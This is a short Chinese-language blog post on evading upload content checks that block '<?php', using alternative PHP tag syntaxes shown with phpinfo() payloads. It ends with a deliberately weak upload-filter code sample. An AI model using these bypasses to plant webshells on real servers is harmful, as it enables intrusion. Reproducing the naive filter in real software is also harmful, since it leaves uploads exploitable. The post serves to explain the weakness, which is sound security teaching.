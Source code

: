 ```yaml
---
layout: post                          
title: "[PHP] 用不同的標籤繞過上傳內容檢查"                   
date: 2018-12-03 23:45:00 +0800       
categories: [php, security]         
tags: [php, security]                     
---
```



部分網站對上傳的文件內容進行檢查，如果發現有"<?php"則判斷為webshell。這種情況下，我們可以通過不同的PHP標籤來繞過上傳的內容檢查。

可用的PHP標籤有：

1. `<?php phpinfo(); ?>`
2.  `<? phpinfo(); ?>` 在開啟了`short_open_tag`後即可使用，無版本限制，在PHP5.3及以後默認開啟。
3. `<?=phpinfo()?>` 在PHP5.4前，開啟了`short_open_tag`後即可使用；在PHP5.4及以後，任何情況（包括`short_open_tag=off`）下都支援。
4. `<% phpinfo(); %>` 在開啟了`asp_tags`後即可使用，默認不開啟，PHP7.0及以後移除了這種方式。
```html
5. <script language="php">phpinfo();</script>
```
在PHP5下支援，PHP7.0及以後移除了這種方式。

---
### 程式碼
```php
<?php
$code = file_get_contents($_FILES['file']['tmp_name']);
if(stripos($code, '<?php') !== false) {
    exit('illegal content');
}
move_uploaded_file($_FILES['file']['tmp_name'], $new_filename);
```